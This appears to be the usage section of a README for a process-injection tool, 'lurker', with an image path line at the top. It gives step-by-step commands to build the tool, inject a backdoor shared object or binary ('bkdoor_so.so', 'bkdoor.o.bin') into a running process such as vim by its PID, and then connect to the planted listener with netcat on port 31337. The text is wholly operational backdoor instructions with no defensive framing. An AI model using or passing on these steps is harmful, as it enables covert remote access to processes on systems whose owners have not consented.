 1. Run `make`.

2. start the target process, such as `vim`, by executing: `vim`.

3. In another terminal, execute: ./lurker \`pidof vim\` \`pwd\`/bkdoor_so.so OR ./lurker --b \`pidof saruman\` bkdoor.o.bin to inject the code into the target process, such as `vim`.

4. Finally, you can run: `nc 127.0.0.1 31337`.


